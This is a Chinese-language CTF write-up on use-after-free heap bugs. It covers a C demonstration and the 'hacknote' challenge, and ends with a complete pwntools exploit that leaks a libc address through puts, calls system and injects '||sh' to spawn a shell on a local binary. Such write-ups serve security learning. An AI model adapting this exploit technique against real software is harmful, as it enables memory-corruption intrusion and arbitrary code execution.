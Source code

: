 ```yaml
---
title: UAF
date: 2022-03-15 14:54:54
tags:
    - uaf
    - 堆
---
```


<!--more-->

# UAF

​	uaf即use after free，顾名思义，某块内存在释放之后还能被用户使用；一般存在于，free之后没有将指针设为Null，导致野指针的存在。

这里首先放一段简单的c代码，更容易理解（linux 环境）

```
#include <stdio.h>
#include <cstdlib>
#include <string.h>
int main()
{
    char *p1;
    p1 = (char *) malloc(sizeof(char)*10);//申请内存空间
    memcpy(p1,"hello",10);
    printf("p1 addr:%x,%s\n",p1,p1);
    free(p1);//释放内存空间
    char *p2;
    p2 = (char *)malloc(sizeof(char)*10);//二次申请内存空间，与第一次大小相同，申请到了同一块内存
    memcpy(p1,"world",10);//对内存进行修改
    printf("p2 addr:%x,%s\n",p2,p1);//验证
    return 0;
}
```

如上代码所示

> 1.指针p1申请内存，打印其地址值 
>  2.然后释放p1 
>  3.指针p2申请同样大小的内存，打印p2的地址，p1指针指向的值
>
> Gcc编译，运行结果如下： 
>
> ![image-20220326143522446](https://s2.loli.net/2022/03/26/P9e2m3LtyCiNWjZ.png)

p1与p2地址相同，p1指针释放后，p2申请相同的大小的内存，操作系统会将之前给p1的地址分配给p2，修改p2的值，p1也被修改了。原理差不多这样，接下来直接实战吧。

## 例题练习

## HACKNOTE-UAF

ida打开

```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int choice; // eax
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v5; // [esp+Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();		//菜单，1~4分别对应不同功能
      read(0, buf, 4u);
      choice = atoi(buf);
      if ( choice != 2 )
        break;
      del_note();//释放堆块
    }
    if ( choice > 2 )
    {
      if ( choice == 3 )
      {
        print_note();//打印堆块
      }
      else
      {
        if ( choice == 4 )
          exit(0);//退出
LABEL_13:
        puts("Invalid choice");
      }
    }
    else
    {
      if ( choice != 1 )
        goto LABEL_13;
      add_note();//创建堆块
    }
  }
}

```

先看创建堆块add（），有一个print_note_content，里面有一个puts函数

![image-20220315203745446](https://s2.loli.net/2022/03/26/6Ip4ivDVKlEXzWS.png)

然后看delete()模块

![](https://s2.loli.net/2022/03/26/6Ip4ivDVKlEXzWS.png)

根据UAF定义，这里只是free掉了指针指向的内存空间，但是没有将（*notelist+v1）+1和（*notelist+v1）置为Null，如下图的aaaa和bbbb会被free掉，但是指针没有置空存在UAF

![image-20220315204905790](https://s2.loli.net/2022/03/26/Uys8kHlioKBj9WA.png)

## 思路

所以想办法通过UAF指向system函数，在把sh打上去应该就可以

## 做法

先申请两个堆块，例如一个note0，一个note1，然后依次释放，那么我们获得两个还未置空的指针，并且note1—>note0（实际调试看出，下图）

![image-20220326144403109](https://s2.loli.net/2022/03/26/3nJymixOEzTcGsw.png)

当我们再次申请一个堆note2，这时候按照堆分配原则（后进先出），note2 其实会分配 note1 对应的内存块。note2指针指向的 chunk 其实是 note0。如果我们这时候向 note2  的 chunk 部分写入system 的地址，那么由于我们没有 note0 为 NULL。当我们再次尝试输出 note0 的时候，程序就会调用system函数。但是实际不可能一步到位，我们还是需要先泄露一个函数，然后再在本地libc计算libc偏移获取system的真实地址,刚好add（）函数有一个print_note_content，里面有一个puts函数，所以通过puts函数泄露

## EXP

```
from pwn import *
context.log_level='debug'
p=process('./hacknote')
elf=ELF('./hacknote')
def add_note(size,payload):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Note size :')
    p.sendline(str(size))
    p.recvuntil('Content :')
    p.send(payload)
def delete_note(index):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(index))
def show_note(index):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(index))
#leak libc
add_note(32,'aaaa')#note0
add_note(32,'bbbb')#note1
delete_note(0)
delete_note(1)
payload=p32(0x0804865B)+p32(elf.got['puts'])#泄露puts地址
add_note(8,payload)#note2
show_note(0)#获取note0
puts_got=u32(p.recv(4))
print hex(puts_got)
#get system_addr
libc=ELF('/lib/i386-linux-gnu/libc.so.6')
libcbase=puts_got-libc.sym['puts']
system_addr=libcbase+libc.sym['system']
#get_shell
delete_note(2)
#payload1=p32(system_addr)+p32(libcbase + libc.search('/bin/sh').next())
payload1=p32(system_addr)+'||sh'#这个||sh是shell注入
add_note(8,payload1)
#gdb.attach(p)
show_note(0)
p.interactive()

```

